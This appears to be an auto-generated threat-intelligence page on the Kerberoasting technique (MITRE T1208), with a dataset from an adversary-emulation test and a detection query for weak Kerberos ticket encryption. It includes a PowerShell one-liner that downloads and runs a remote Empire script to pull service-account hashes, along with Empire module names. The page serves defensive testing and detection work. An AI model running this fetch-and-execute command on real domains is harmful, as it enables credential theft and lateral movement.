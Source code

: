 
# Kerberoasting

## Description

### MITRE Description

> Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service (Citation: Microsoft Detecting Kerberoasting Feb 2018)). (Citation: Microsoft SPN) (Citation: Microsoft SetSPN) (Citation: SANS Attacking Kerberos Nov 2014) (Citation: Harmj0y Kerberoast Nov 2016)

Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). (Citation: Empire InvokeKerberoast Oct 2016) (Citation: AdSecurity Cracking Kerberos Dec 2015) Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline [Brute Force](https://attack.mitre.org/techniques/T1110) attacks that may expose plaintext credentials. (Citation: AdSecurity Cracking Kerberos Dec 2015) (Citation: Empire InvokeKerberoast Oct 2016) (Citation: Harmj0y Kerberoast Nov 2016)

This same attack could be executed using service tickets captured from network traffic. (Citation: AdSecurity Cracking Kerberos Dec 2015)

Cracked hashes may enable Persistence, Privilege Escalation, and  Lateral Movement via access to [Valid Accounts](https://attack.mitre.org/techniques/T1078). (Citation: SANS Attacking Kerberos Nov 2014)

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: intentionally left blank
* Permissions: ['User']
* Platforms: ['Windows']
* Remote: intentionally left blank
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1208

## Potential Commands

```
iex(iwr https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)
Invoke-Kerberoast | fl

powershell/credentials/invoke_kerberoast
powershell/credentials/invoke_kerberoast
```

## Commands Dataset

```
[{'command': 'iex(iwr '
             'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)\n'
             'Invoke-Kerberoast | fl\n',
  'name': None,
  'source': 'atomics/T1208/T1208.yaml'},
 {'command': 'powershell/credentials/invoke_kerberoast',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/credentials/invoke_kerberoast',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'}]
```

## Potential Detections

```json

```

## Potential Queries

```json
[{'name': 'Yml',
  'product': 'https://raw.githubusercontent.com/12306Bro/Threathunting-book/master/{}',
  'query': 'Yml\n'
           'title: kerberos weak encryption\n'
           'description: domain environment test\n'
           'references: https://adsecurity.org/?p=3458\n'
           'status: experimental\n'
           'author: 12306Bro\n'
           'logsource:\n'
           '\xa0\xa0\xa0\xa0product: windows\n'
           '\xa0\xa0\xa0\xa0service: security\n'
           'detection:\n'
           '\xa0\xa0\xa0\xa0selection:\n'
           '\xa0\xa0\xa0\xa0\xa0\xa0\xa0\xa0EventID: 4769 #kerberos Service '
           'Ticket Request\n'
           '\xa0\xa0\xa0\xa0\xa0\xa0\xa0\xa0TicketOptions: 0x40810000 # '
           'Additional information> Ticket Options\n'
           '\xa0\xa0\xa0\xa0\xa0\xa0\xa0\xa0TicketEncryptiontype: 0x17 # '
           'Additional information> Ticket Encryption Type\n'
           '\xa0\xa0\xa0\xa0reduction:\n'
           "\xa0\xa0\xa0\xa0\xa0\xa0\xa0\xa0- ServiceName: '$ *' # service "
           'name> service information\n'
           '\xa0\xa0\xa0\xa0condition: selection and not reduction\n'
           'level: medium'}]
```

## Raw Dataset

```json
[{'Atomic Red Team Test - Kerberoasting': {'atomic_tests': [{'description': 'This '
                                                                            'test '
                                                                            'uses '
                                                                            'the '
                                                                            'Powershell '
                                                                            'Empire '
                                                                            'Module: '
                                                                            'https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1\n'
                                                                            '\n'
                                                                            'The '
                                                                            'following '
                                                                            'are '
                                                                            'further '
                                                                            'sources '
                                                                            'and '
                                                                            'credits '
                                                                            'for '
                                                                            'this '
                                                                            'attack:\n'
                                                                            '[Kerberoasting '
                                                                            'Without '
                                                                            'Mimikatz '
                                                                            'source] '
                                                                            '(https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)\n'
                                                                            '[Invoke-Kerberoast '
                                                                            'source] '
                                                                            '(https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)\n'
                                                                            'when '
                                                                            'executed '
                                                                            'successfully '
                                                                            ', '
                                                                            'the '
                                                                            'test '
                                                                            'displays '
                                                                            'available '
                                                                            'services '
                                                                            'with '
                                                                            'their '
                                                                            'hashes. \n'
                                                                            'If '
                                                                            'the '
                                                                            'testing '
                                                                            'domain '
                                                                            "doesn't "
                                                                            'have '
                                                                            'any '
                                                                            'service '
                                                                            'principal '
                                                                            'name '
                                                                            'configured, '
                                                                            'there '
                                                                            'is '
                                                                            'no '
                                                                            'output \n',
                                                             'executor': {'command': 'iex(iwr '
                                                                                     'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)\n'
                                                                                     'Invoke-Kerberoast '
                                                                                     '| '
                                                                                     'fl\n',
                                                                          'elevation_required': False,
                                                                          'name': 'powershell'},
                                                             'name': 'Request '
                                                                     'for '
                                                                     'service '
                                                                     'tickets',
                                                             'supported_platforms': ['windows']}],
                                           'attack_technique': 'T1208',
                                           'display_name': 'Kerberoasting'}},
 {'Empire Module XLSX Sheet by dstepanic': {'ATT&CK Technique #1': 'T1208',
                                            'ATT&CK Technique #2': '',
                                            'Concatenate for Python Dictionary': '"powershell/credentials/invoke_kerberoast":  '
                                                                                 '["T1208"],',
                                            'Empire Module': 'powershell/credentials/invoke_kerberoast',
                                            'Technique': 'Kerberoasting'}}]
```

# Tactics


* [Credential Access](../tactics/Credential-Access.md)


# Mitigations

None

# Actors

None
